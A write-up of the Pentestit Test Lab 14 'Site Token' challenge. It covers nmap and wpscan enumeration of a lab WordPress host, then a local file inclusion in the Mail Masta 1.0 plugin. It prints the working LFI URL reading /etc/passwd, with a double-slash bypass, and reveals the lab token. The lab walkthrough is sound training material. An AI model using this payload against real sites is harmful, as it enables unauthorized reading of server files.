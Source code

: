 ```yaml
---
title: Pentestit.ru - TEST LAB 14 - Site Token
description: My writeup on site token.
categories:
 - pentestit.ru
tags: pentestit.ru, wordpress
---
```


Let's start this awesome adventure!

You can start there > [TEST LAB 14](https://lab.pentestit.ru/pentestlabs/14){:target="_blank"}

We have 2 entry points addresses :

```
1. 192.168.101.14
2. 192.168.101.15
```

Let's enumerate `192.168.101.14` first.

As always let's start with a nmap scan.

```
$ ip=192.168.101.14
$ nmap -sC -sV -oN nmap.txt $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-30 15:00 EEST
Nmap scan report for site.test.lab (192.168.101.14)
Host is up (0.14s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    nginx 1.16.1
|_http-server-header: nginx/1.16.1
|_http-title: 403 Forbidden
143/tcp  open  imap    Dovecot imapd
|_imap-capabilities: have AUTH=PLAIN more IDLE post-login listed LITERAL+ LOGIN-REFERRALS ID Pre-login SASL-IR capabilities ENABLE OK AUTH=LOGINA0001 IMAP4rev1
8080/tcp open  http    nginx
|_http-open-proxy: Proxy might be redirecting requests
| http-title: Roundcube Webmail :: Welcome to Roundcube Webmail
|_Requested resource was http://site.test.lab:8080/mail/
```

Let's start with port 80, when we visit the webpage we get this error :

```
Hmm. We’re having trouble finding that site.

We can’t connect to the server at site.test.lab.
```

Why is happening this ?

Because of webserver virtual hosts.

`vitrual hosts` -> allows you to run more than one website on a single machine.

When we browse a machine using a domain name for example `test.vulnhub` the webserver will direct you to the content based on the host header. If we don't do this and browse the machine with raw IP address, that header won't be set properly and you'll get a default page or error page.

We need to add this hostname into `/etc/hosts`

`/etc/hosts` -> translate hostnames to IP addresses

For windows users u can find it there -> `c:\windows\system32\drivers\etc\hosts`

We can aso use hosts file because it's easier to remember the hostname/domain than the IP address.

Let's add it.

```
# nano /etc/hosts
...
192.168.101.14  site.test.lab
```

Now we can see a wordpress site!

```html
<meta name="generator" content="WordPress 5.0" />
```

Let's run `wpscan`

```
$ wpscan --no-banner --url http://site.test.lab/ --enumerate p --random-user-agent
..junk data..
[i] Plugin(s) Identified:

[+] mail-masta
 | Location: http://site.test.lab/wp-content/plugins/mail-masta/
 | Latest Version: 1.0 (up to date)
 | Last Updated: 2014-09-19T07:52:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.0 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://site.test.lab/wp-content/plugins/mail-masta/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://site.test.lab/wp-content/plugins/mail-masta/readme.txt
```

Let's search for possible exploits.

```
$ searchsploit mail masta
WordPress Plugin Mail Masta 1.0 - Local File Inclusion | php/webapps/40290.txt
```

Let's test it out.

`http://site.test.lab/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd`

Gives us an error message hmm.. we can bypass that using `//` double slash.

That is an error probably in the developer's code.

`http://site.test.lab/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=//etc//passwd`

In the end we can see this `token_hrTY9s4Cv`, we got it!

Site Token -> `hrTY9s4Cv`

See you, in the next step!
